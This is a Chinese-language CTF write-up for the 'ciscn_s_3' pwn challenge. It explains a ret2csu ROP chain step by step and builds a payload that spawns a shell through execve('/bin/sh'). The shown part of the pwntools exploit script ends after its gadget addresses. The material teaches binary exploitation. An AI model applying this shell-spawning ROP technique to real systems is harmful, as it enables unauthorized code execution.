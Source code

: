 ```assembly
//pop
.text:000000000040059A                 pop     rbx
.text:000000000040059B                 pop     rbp
.text:000000000040059C                 pop     r12
.text:000000000040059E                 pop     r13
.text:00000000004005A0                 pop     r14
.text:00000000004005A2                 pop     r15
.text:00000000004005A4                 retn
```

总结下来就是：

- `r15d` -> `edi` （一般来说`rdi`寄存器高8位都是0，所以这里虽然只控制了低8位，但实际上相当于可以控制`rdi`的值）
- `r14` -> `rsi`
- `r13` -> `rdx`
- 还有，`rbx`设为0，然后`call [r12+rbx*8];`就会以`r12`存储的地址为起点取指令，并且每次向后跳8位，因为call指令后会将`rbx`加1，然后对比`rbp`，如果不相等则再次循环

于是，理论上，我们就能够构造一段极其巧妙的`payload2`：

```python
payload2 = b'/bin/sh\x00'.ljust(0x10, b'a') + p64(pop_rbx_rbp_r12_r13_r14_r15_ret)
payload2 += p64(0)*2 + p64(binsh_addr+0x50) + p64(0)*3
payload2 += p64(mov_rdx_r13_mov_rsi_r14_mov_edi_r15_call_r12) + p64(mov_rax_59_ret)
payload2 += p64(pop_rdi_ret) + p64(binsh_addr) + p64(syscall)
```

对应的执行流程为：

1. 写完'/bin/sh'，`vuln()`内执行`retn`，进而执行`pop_rbx_rbp_r12_r13_r14_r15_ret`。`pop`6次，`rbx`/`rbp`/`r12`/`r13`/`r14`/`r15`分别被设为`0`/`0`/`binsh_addr+0x50`/`0`/`0`/`0`/，`rsp`此时指向`mov_rdx_r13_mov_rsi_r14_mov_edi_r15_call_r12`，接在再`retn`，执行`mov_rdx_r13_mov_rsi_r14_mov_edi_r15_call_r12`，此时`rsp`指向`mov_rax_59_ret`，**注意，这刚好是前面的`binsh_addr_0x50`😬**
2. `mov_rdx_r13_mov_rsi_r14_mov_edi_r15_call_r12`指令执行，`rsi`/`rdx`被设置为0，第一次`call [r12];`。
3. 众所周知，`call`指令的执行过程是先push再jump，然后jump的目的指令段最后一般都有个ret回来。所以，第一次执行`call [r12];`，就相当于执行`mov_rax_59_ret`，把`rax`设为了`59`，然后`ret`。经过一番`push`/`ret`之后，**`rsp`又回到了`mov_rax_59_ret`的位置**，但此时`rbx`已经被加了1，值变为了`1`。然后通过后面的`cmp`判断，`jnz`再次跳回`mov_rdx_r13_mov_rsi_r14_mov_edi_r15_call_r12`指令开头。
4. 再次执行`mov_rdx_r13_mov_rsi_r14_mov_edi_r15_call_r12`，不同的是，此时`rbx`为`1`，所以`call`指令变为了`call [r12+8];`，所以`pop_rdi_ret`被执行：`call`首先`push`，`rsp`指向`call`之后的下一条指令，然后`jump`；`jump`之后`pop rdi`，`rdi`变为了`call`的下一条指令地址，`rsp`指向`mov_rax_59_ret`；再接着`ret`，`rsp`指向`pop_rdi_ret`，`rip`指令寄存器的内容为`mov_rax_59_ret`，所以系统执行的下一条指令为`mov_rax_59_ret`。
5. 执行`mov_rax_59_ret`，`rsp`指向`binsh_addr`，`rip`指令寄存器的内容为`pop_rdi_ret`，所以系统执行的下一条指令为`pop_rdi_ret`。
6. `pop rdi;`将`binsh_addr`写入`rdi`，然后`ret`执行`syscall`。此时，`rax`为59，且三个寄存器`rdi`/`rsi`/`rdx`分别为`binsh_addr`/`0`/`0`，相当于执行`execve("/bin/sh", NULL, NULL)`，拿到shell。

感觉[这篇博客](http://liul14n.top/2020/03/07/Ciscn-2019-s-3/)里的执行流程分析好像写错了一步...

最终完整exp如下。

```python
from pwn import *
；
# 本地调试
if args.LOCAL:
    # context.terminal = ["wsl", "-c"]
    # io = process("./ciscn_s_3")
    io = gdb.debug("./ciscn_s_3")
else:
    io = remote("node4.buuoj.cn", 25280)
    # context.log_level = 'debug'

vuln_addr = 0x4004ed
syscall = 0x400517
pop_rdi_ret = 0x4005a3
mov_rax_59_ret = 0x4004e2
pop_rbx_rbp_r12_r13_r14_r15_ret = 0x40059a
mov_rdx_r13_mov_rsi_r14_mov_edi_r15_call_r12 = 0x400580

```
